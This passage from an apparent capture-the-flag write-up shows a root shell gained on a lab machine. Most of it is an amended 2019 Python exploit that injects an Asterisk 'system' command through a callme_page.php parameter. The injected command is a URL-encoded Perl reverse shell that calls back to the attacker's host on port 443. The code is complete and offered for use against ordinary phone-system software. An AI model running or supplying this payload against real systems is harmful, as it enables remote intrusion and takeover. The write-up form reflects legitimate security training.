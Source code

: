 then:
 
``` sh
!sh
id
```
 
and I'm root, W00T!W00T!
 
``` sh
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
 
## Bonus (2019 Edit)
 
Later versions of Python dropped the default support for weak schannels, TLS 1.0 being included.
 
Amended code to work in 2019 is a follows:
 
``` python
import urllib
import ssl
 
rhost="10.10.10.7"
lhost="10.10.14.37"
lport=443
extension="233"
#context = ssl._create_unverified_context()
context = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
 
# Reverse shell payload
 
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'
 
#urllib.urlopen(url)
urllib.urlopen(url, context=context)
```